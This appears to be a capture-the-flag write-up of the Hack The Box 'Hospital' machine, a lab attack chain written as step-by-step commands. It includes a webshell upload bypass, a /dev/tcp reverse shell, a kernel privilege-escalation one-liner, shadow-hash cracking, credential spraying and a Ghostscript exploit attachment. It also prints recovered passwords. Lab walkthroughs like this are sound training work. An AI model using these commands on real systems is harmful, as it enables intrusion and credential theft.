


# [Hospital](https://app.hackthebox.com/machines/hospital)

```bash
nmap -p- --min-rate 10000 10.10.11.241 -Pn
```


With chaning rate (5000), I got new port which is `8080`.

```bash
nmap -p- --min-rate 5000 10.10.11.241 -Pn
```


After detection of open ports, let's do greater nmap scan for ports which sounds tricky.

```bash
nmap -A -sC -sV -p53,88,135,139,389,443,445,3389,8080 10.10.11.241 -Pn
```




I see `Roundcube Webmail` for port `443`.


I see some application for port `8080`.


Let's create account and fuzz features of this application.

Once we open `dashboard`, we see `upload` functionality.


Let's try to do `File Upload Vulnerability`.


I tried to upload `.php` webshell and it failed.


Let's fuzz extensions from [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) and `.phar` type worked.


But I cannot see any output from my webshell execution.


Let's upload webshell via `.phar` extension by using `weevely` command.

First, we need to genereate webshell as below.
```bash
weevely generate dr4ks dr4ks.phar
```


Second, we need to upload this `dr4ks.phar` file into machine and run below command.

```bash
weevely http://10.10.11.241:8080/uploads/dr4ks.phar dr4ks
```


Let's add our reverse shell payload into here.
```bash
bash -c "bash -i >& /dev/tcp/10.10.14.2/1337 0>&1"
```


Hola, I got reverse shell from port `1337`.


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
```


Let's run `uname -a` to learn kernel's version.


I searched this kernel's version and find publicly known exploit whose id is [CVE-2023-2640](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)

I run exploit code as below.

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("rm -rf l m u w; bash")'
```


I am already root on `webserver`.


I just look at `/etc/shadow` to learn passwords of users.


Let's try to crack hash of `drwilliams` user via `hashcat`.

```bash
hashcat -m 1800 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```


drwilliams: qwe123!@#


Let's check this credentials against our target's `SMB` and `Winrm` via `crackmapexec`.
```bash
crackmapexec smb 10.10.11.241 -u "drwilliams" -p 'qwe123!@#'
crackmapexec winrm 10.10.11.241 -u "drwilliams" -p 'qwe123!@#'
```


Let's enumerate shares also via `smbmap` command.
```bash
smbmap -H 10.10.11.241 -u drwilliams -p'qwe123!@#'
```


Let's try to use credentials against `Roundcube` and it worked.


There's email in inbox about `Ghostscript` and I searched publicly known exploit for this software and find already.



That's [CVE-2023-36664](https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection), let's use this.

```bash
python CVE_2023_36664_exploit.py --generate --filename needle --extension eps --payload "{powershell_base64_encoded_payload}"
```


Let's use this exploit.


Now, it's time to attach this maliicous file.


I got reverse shell from port `443`.


user.txt


While enumeration on machine, I find `ghostscript.bat` file on folder `C:\Users\drbrown.HOSPITAL\Documents` which contains sensitive credentials.


drbrown: chr!$br0wn


Let's check this credentials against SMB,WinRM via `crackmapexec`.

```bash
crackmapexec smb 10.10.11.241 -u "drbrown" -p 'chr!$br0wn'
crackmapexec winrm 10.10.11.241 -u "drbrown" -p 'chr!$br0wn'
```


Let's connect into machine via `evil-winrm`.

```bash
evil-winrm -i 10.10.11.241 -u "drbrown" -p 'chr!$br0wn'
```


While enumeration, I see that I have full privilege to `xampp` folder.


Let's upload php webshell into here and execute to learn what user is running, imp it is `administrator`.

I upload into `C:/xampp/htdocs` where `index.php` shows that `Roundcube` is used.


Let's browse this webshell.


Let's add our `powershell` reverse shell payload and `URL Encoding` to your payload.


Hola I got reverse shell from port `2024`.


root.txt

